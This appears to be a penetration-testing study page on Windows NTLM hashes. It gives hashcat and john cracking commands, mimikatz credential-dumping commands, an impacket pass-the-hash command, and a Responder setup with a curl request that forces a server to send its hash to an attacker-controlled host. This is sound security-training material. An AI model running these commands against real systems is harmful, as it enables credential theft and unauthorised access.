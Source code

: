 ```yaml
---
icon: windows
---
```


# NTLM

## Introduction

Windows stores hashed user passwords in the Security Account Manager (SAM) database file or at NTDS.DIT data base which is located at the Domain Controllers.\
Important thing to note that the hashes stored are not salted.

There are multiple versions of hashes that used to store passwords in windows.

### LM

LM hash is the most traditional way to store passwords in windows but it's considered weak and not enough. also, It’s disabled by default since windows vista/windows server 2008.

Cracking **LM** hash:

```bash
john --format=lm hash.txt
hashcat -m 3000 -a 3 hash.txt
```

### **NTHash**

On modern systems, the hashes are stored as NTHash hashes a.k.a NTLM.

Cracking NTHashes

```bash
john --format=nt hash.txt
hashcat -m 1000 -a 3 hash.txt
```

### NTLMv1 <a href="#id-1070" id="id-1070"></a>

The NTLMv1 A.K.A. Net-NTLMv1 protocol uses the **NTHash** in a challenge/response between a server and a client.

Cracking NTLMv1 hash:

```bash
john --format=netntlm hash.txt
hashcat -m 5500 -a 3 hash.txt
```

### NTLMv2 <a href="#id-4fef" id="id-4fef"></a>

NTLMv2 A.K.A. Net-NTLMv2 is the new and improved version of the NTLMv1 protocol, which makes it a bit harder to crack.

Cracking NTLMv2 hash:

```bash
john --format=netntlm hash.txt
hashcat -m 5600 -a 3 hash.txt
```

## Mimikatz&#x20;

**mimikatz** is a well known tool to extract passwords and hashes in windows environments.

{% hint style="warning" %}
NOTE: We can only extract SAM database if we are running Mimikatz as `Administrator` (or higher) and have the `SeDebugPrivilege`
{% endhint %}

We can also elevate our privileges to the _SYSTEM_ account with tools like _PsExec_[11](https://portal.offsec.com/courses/pen-200-44065/learning/password-attacks-44959/working-with-password-hashes-45019/cracking-ntlm-44965#fn-local\_id\_3266-11) or the built-in Mimikatz _token elevation_ to obtain the required privileges.&#x20;

It is possible to obtain the required privileges using `PsExec` or token elevation using mimkatz.

### First steps

Running mimikatz and checking basic priviliges:

```batch
.\mimikatz.exe
privilege::debug
```

Elevating to the required privileges

```batch
token::elevate
```

### Commands

Extract plaintext passwords and password hashes from all available sources

{% code overflow="wrap" %}
```batch
sekurlsa::logonpasswords 
```
{% endcode %}

Extract the hashes from the SAM.

```batch
lsadump::sam 
```

## Pass The hash

{% hint style="warning" %}
NOTE: In order to perform pass-the-hash a local Administrator is required unless the target machine is misconfigured.
{% endhint %}

Passing the hash using `psexec` from impacket:

```bash
impacket-psexec -hashes :<NTHash> <username>@<target>
```

## Capture Net-NTLMv2

### Responder

Responder is a tool which able to start a server running various services.\
The Responder server handles the authentication process and prints all captured credentials and hashes.\
It supports HTTP, FTP, SMB as well poisoning capabilities for LLMNR, NBT\_NS and MDNS.

***

Basic scenario for capturing NTLMv2 using vulnerable web application:

running responder

```bash
sudo responder -I <interface>
```

assuming web is vulnerable to path traversal and using smb shares to display pages:

```bash
curl --path-as-is  'http://<targer>/\\<attacker_responder_ip>/a'
```

The vulnerable website will then authenticate with the responder server and the hashes will be captured.&#x20;

## References

{% embed url="https://github.com/SpiderLabs/Responder" %}
responder
{% endembed %}

{% embed url="https://github.com/ParrotSec/mimikatz" %}
mimkatz
{% endembed %}

{% embed url="https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4" %}
LM, NTLM, Net-NTLMv2, oh my!
{% endembed %}

\
